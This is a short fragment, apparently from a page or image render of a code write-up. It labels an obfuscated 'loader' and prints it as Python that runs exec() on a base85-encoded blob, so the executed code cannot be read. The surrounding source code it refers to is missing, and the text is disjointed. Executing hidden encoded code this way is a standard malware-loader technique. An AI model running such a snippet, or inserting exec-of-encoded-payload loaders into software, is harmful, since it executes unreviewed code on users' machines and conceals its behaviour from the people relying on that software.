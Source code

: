 And here is the same loader encoded

```py
import base64
exec(base64.b85decode(b'3TbU{Z*p`XX>?_BbZ>8La|&8cQy@JcdwmLYa(OxmARr(hWq4&{C?X;*YHw+7C}U`HC}AL8AYv&XW^ZyJVJskGAZczOdTDSdVqtS-HZ(3`I5lKtV{c?-C|_S>Z)0CyTQNE<F<mZlWpHd^V`V5JTy7#PA|fd%EFfugWpZ?HZ)|feV|in2Whh%PZ!t7BEHG~|H8(6UZ!tADT`4IkEFfA=Qz;5%cw=R7bUF$kARr)cVRLf|WMyU`Z(?RBW_503DLM)uARr)QWo96Ea$#_AWpXGgVJsjjDq&$MItm~lARr(hARuyObairWAX-jSTV{1`V=iA`ZeeX@Ute7)Dq$=jDk@=NDIjTPAZB%LV=iA`ZeeX@Utb_;ZXjAtQy^t*b7dfAb#7xQDq$=jDk@=NDGDGUARuyObairWAa`<MaByXE'))
```
